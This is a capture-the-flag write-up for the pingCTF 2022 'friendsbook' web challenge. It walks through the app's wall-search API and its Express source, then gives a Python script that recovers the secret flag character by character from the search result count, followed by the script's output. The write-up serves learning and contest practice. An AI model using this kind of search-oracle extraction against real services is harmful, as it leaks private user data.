# pingCTF 2022 - Gdansk University of Technology
Web, 100 Points

## Description

![‏‏info.JPG](images/info.JPG)
 
And the attached file [580410f52ad3012de442ead6bc6675b2.zip](./580410f52ad3012de442ead6bc6675b2.zip).

## friendsbook Solution

By browsing to the website on the challenge description [https://friendsbook.knping.pl/](https://friendsbook.knping.pl/) we get the following web page:

![‏‏home.JPG](images/home.JPG)

Let's register:

![‏‏register.JPG](images/register.JPG)

After registering we get the following web page:

![‏‏welcome.JPG](images/welcome.JPG)

By clicking on [‏‏Go to your wall](https://friendsbook.knping.pl/wall) we get the following web page:

![‏‏wall.JPG](images/wall.JPG)

By observing the HTTP request of the search we can see the following request:
```HTTP
GET /api/post/wall?q= HTTP/2
Host: friendsbook.knping.pl
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImVhMjcxNGRmLWFmYTUtNDVjMS05ZTJhLTZmZTRlNDc4NWQyMiIsInVzZXJuYW1lIjoiZXZ5YXRhcjkiLCJpYXQiOjE2NzE3MTEwNDEsImV4cCI6MTY3MTc5NzQ0MX0.unAEH3wW3u6zaf3plNDEJYbTb4sMO4OmsaK9wux5NzI
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://friendsbook.knping.pl/wall

```

Response:
```HTTP
HTTP/2 200 OK
Date: Thu, 22 Dec 2022 12:15:50 GMT
Content-Type: application/json; charset=utf-8
X-Powered-By: Express
Etag: W/"62-JOz70zDG4IfeKnF6AHJuO4u5d+E"
Cf-Cache-Status: DYNAMIC
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=VItyPNRdVJkv6s5bk34J%2Bj8DTlzdFDm5ZoXVUquap%2FbReEvSGb%2FALHc3wrsT1ojbTLfIr9ggBTWVftV9cAIYMialGAN3CQx2O%2F7Brd9avFI11aFbLp1fbyZ%2BgGOHqtgHEFhQfjv0BYk%3D"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Server: cloudflare
Cf-Ray: 77d8c906eb859290-FRA
Alt-Svc: h3=":443"; ma=86400, h3-29=":443"; ma=86400

{"data":["47cd1f2a-010e-4065-8b0c-6d44983d96bc","0dafb8d2-751a-4316-904c-92350f6b30ec"],"count":2}
```

We can see that we get two IDs which is possibly the post id.

Let's observe the code of this operation on ```post.js``` file:
```javascript
router.get("/wall", verifyToken, async (req, res) => {
	try {
		const { q } = req.query;
		const posts = UserRepository.getWall(req.user.id, q);
		const count = UserRepository.getWallCount(req.user.id, q);
		res.json({ data: posts, count });
	} catch (err) {
		res.redirect(`/error?message=${err.message}`);
	}
});
```

We can see the functions calls to ```getWall``` and to ```getWallCount``` functions from ```UserRepository.js``` file:
```javascript
getWall(userId, query) {
	const user = users.find((u) => u.id === userId);
	return posts
		.sort((a, b) => b.createdAt - a.createdAt)
		.map((p) => {
			if (
				(user.friends.includes(p.authorId) &&
					p.content.includes(query)) ||
				(p.authorId === userId && p.content.includes(query))
			) {
				return p.id;
			}
		})
		.filter((p) => p !== undefined);
},

getWallCount(userId, query) {
	const user = users.find((u) => u.id === userId);
	return posts.filter(
		(p) =>
			(user.friends.includes(p.authorId) &&
				p.content.includes(query)) ||
			(p.authorId === userId && p.content.includes(query))
	).length;
}
```

According to the source code, we can see that if our query contains characters from the post the functions returns the id of the relevant post and also the post with the relevant characters.

According to this, we can leak the flag, We can the flag prefix is ```ping{``` so we can write ```python``` script to get the rest of the flag, If we get an HTTP response with post id/with ```count > 0``` we know that we have the right character from the flag.

Let's use the following script to solve it [flag.py](./flag.py):

```python
import requests
import string
import json

cookies = {'token':'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImVhMjcxNGRmLWFmYTUtNDVjMS05ZTJhLTZmZTRlNDc4NWQyMiIsInVzZXJuYW1lIjoiZXZ5YXRhcjkiLCJpYXQiOjE2NzE3MTEwNDEsImV4cCI6MTY3MTc5NzQ0MX0.unAEH3wW3u6zaf3plNDEJYbTb4sMO4OmsaK9wux5NzI'}

headers = {'Accept':'application/json'}

flag='ping{'
options = string.printable

# Replace special URL characters
options = options.replace('#','')
options = options.replace('&','')

while '}' not in flag:

    for c in options:
        current = flag+c
        r = requests.get(f'https://friendsbook.knping.pl/api/post/wall?q={current}', cookies=cookies, headers=headers)
        #print(r.text)
        resp = json.loads(r.text)
        if resp['count'] > 0:
            flag +=c
            print(flag)
            break
			
print(f'The flag: {flag}')
```

Run it:
```console
┌─[evyatar9@parrot]─[/pingctf2022/web/friendsbook]
└──╼ $ python3 flag.py
ping{s
ping{s0
ping{s0_
ping{s0_h
ping{s0_h0
ping{s0_h0w
ping{s0_h0w_
ping{s0_h0w_m
ping{s0_h0w_m4
ping{s0_h0w_m4n
ping{s0_h0w_m4ny
ping{s0_h0w_m4ny_
ping{s0_h0w_m4ny_f
ping{s0_h0w_m4ny_fr
ping{s0_h0w_m4ny_fr4
ping{s0_h0w_m4ny_fr4m
ping{s0_h0w_m4ny_fr4m3
ping{s0_h0w_m4ny_fr4m3s
ping{s0_h0w_m4ny_fr4m3s_
ping{s0_h0w_m4ny_fr4m3s_d
ping{s0_h0w_m4ny_fr4m3s_d1
ping{s0_h0w_m4ny_fr4m3s_d1d
ping{s0_h0w_m4ny_fr4m3s_d1d_
ping{s0_h0w_m4ny_fr4m3s_d1d_y
ping{s0_h0w_m4ny_fr4m3s_d1d_y0
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0u
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0un
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4b
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d7
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d70
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f14
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f140
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b63
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b639
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6392
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b63926
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b639269
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6392692
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b63926925
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b639269255
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6392692557
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6392692557c
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6392692557cc
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6392692557cc3
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6392692557cc34
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6392692557cc347
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6392692557cc347e
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6392692557cc347e0
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6392692557cc347e08
ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6392692557cc347e08}
The flag: ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6392692557cc347e08}
```

And we get the flag ```ping{s0_h0w_m4ny_fr4m3s_d1d_y0u_c0unt?_4bc9d709f1404b6392692557cc347e08}```.